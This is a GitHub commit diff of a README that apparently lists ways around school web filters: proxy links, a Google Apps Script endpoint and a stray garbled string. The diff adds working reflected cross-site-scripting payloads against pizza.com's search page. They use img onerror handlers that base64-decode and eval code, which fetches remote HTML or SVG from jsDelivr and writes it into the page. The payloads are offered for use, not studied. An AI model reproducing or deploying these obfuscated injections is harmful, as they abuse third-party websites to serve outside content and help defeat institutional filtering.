

Before and after one commit to shatwyatt-boop/Gay, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -5,11 +5,10 @@ https://math.jsscmail.cc/
 
 https://www.securly.com.nogridco.com/
 
+https://gate-keep.live/
 
-
-
-
-
+https://s3.amazonaws.com/dynamiclearning/index.html
+https://pizza.com/?s=<img%20src%20onerror=h=eval,h(atob('ZmV0Y2goImh0dHBzOi8vY2RuLmpzZGVsaXZyLm5ldC9naC9jcnNocWQvc3R1cmR5LWxhbXBASEVBRC9hcmN0aWMuc3ZnIikudGhlbihmdW5jdGlvbih0KXtyZXR1cm4gdC50ZXh0KCl9KS50aGVuKGZ1bmN0aW9uKHQpe2RvY3VtZW50LndyaXRlKHQpfSk7'))>
 
 https://pizza.com/?s=<img%20src%20onerror=e%3Deval,e(atob('ZmV0Y2goJ2h0dHBzOi8vY2RuLmpzZGVsaXZyLm5ldC9naC9nYWxheHlraW5nMTYvbGVhcm5AbWFpbi9kYXRhLmh0bWwnKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9PmRvY3VtZW50LndyaXRlKHQpKQ'))>
 hiwytrrhyhihttps://script.google.com/macros/s/AKfycbw-9Y0SkbAhSVLBK8u5bVqhwYXqU1enIElKPM6AZyVig_q__c4hKzQX8TmfbUpvLwv2/exec
```
